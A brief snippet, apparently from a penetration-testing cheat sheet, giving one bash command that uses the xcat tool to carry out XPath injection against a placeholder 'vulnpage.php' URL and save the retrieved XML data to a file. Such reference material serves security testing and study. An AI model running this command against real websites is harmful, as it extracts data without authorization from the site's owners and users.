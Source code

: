 # xcat enumeration of XPATHS
```bash
xcat --method=GET http://<website>/vulnpage.php <CountyID> <CountryID> <match_string> run retrieve --output /root/file.txt --format xml
```

